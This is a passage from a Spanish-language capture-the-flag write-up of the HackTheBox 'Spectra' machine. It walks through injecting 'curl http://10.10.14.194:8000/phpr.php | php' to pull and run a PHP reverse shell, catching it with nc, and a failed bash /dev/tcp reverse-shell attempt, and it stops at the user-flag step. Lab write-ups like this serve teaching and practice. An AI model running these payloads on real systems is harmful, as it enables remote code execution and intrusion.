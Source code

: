 Descargamos el archivo y modificamos dentro de él los campos `ip` y `port` por los nuestros:

```php
...
$ip = '10.10.14.194';  // CHANGE THIS
$port = 4433;       // CHANGE THIS
...
```

Ahora simplemente le indicamos que nos haga una petición a ese archivo, pero como plus le indicamos que su contenido lo interprete con `PHP`:

```html
<!-- Sin URL encode -->
xmd=curl http://10.10.14.194:8000/phpr.php | php

<!-- URL encode -->
xmd=curl%20http%3A%2F%2F10.10.14.194%3A8000%2Fphpr.php%20%7C%20php
```

Y en nuestro `nc` tenemos:

![317bash_revSH_nginx](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317bash_revSH_nginx.png)

Perfecto, ahora si tenemos una Shell (: Pueeeees, a enumerar...

* [Realizando **tratamiento de la TTY** con ayuda de **S4vitar**](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

...

(Validando el porqué no pudimos obtener RCE mediante `bash` ni `nc`)

```bash
bash-4.3$ which nc
which: no nc in ((null))
bash-4.3$ locate nc
locate: can not stat () `/usr/local/db/mlocate/mlocate.db': Permission denied
bash-4.3$ nc
bash: nc: command not found
bash-4.3$ bash -i >& /dev/tcp/10.10.14.194/4434 0>&1
bash: /dev/tcp/10.10.14.194/4434: No such file or directory
```

En todos obtuvimos errores, por eso no había ninguna ejecución :(

La flag del user esta en el usuario `katie`:
